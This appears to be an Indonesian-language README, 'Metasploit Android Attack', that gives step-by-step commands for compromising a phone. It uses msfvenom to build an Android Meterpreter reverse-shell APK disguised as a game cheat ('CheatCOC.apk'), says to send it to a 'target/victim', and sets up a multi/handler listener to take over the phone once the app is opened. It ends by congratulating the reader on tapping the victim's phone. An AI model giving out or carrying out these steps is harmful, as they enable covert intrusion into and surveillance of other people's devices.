 # Metasploit

# Android Attack 

![image.png]( {https://bahrunsyah.xyz} ) 
> $sudo apt update

> $sudo apt upgrade

> $ifconfig (untuk mengetahui ip)

> $sudo su (masuk ke menu root)

Membuat payload dengan perintah

> #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

> #etc/init.d/postgresql start

> #msfconsole

> #use multi/handler

> #set payload android/meterpreter/reverse_tcp

> #set LHOST 192.168.111.61

> #set LPORT 4321

> #exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi

> #? (untuk melihat menu perintah apa saja yang dapat dilakukan)

selamat kamu telah menyadap hp target/korban mu :)
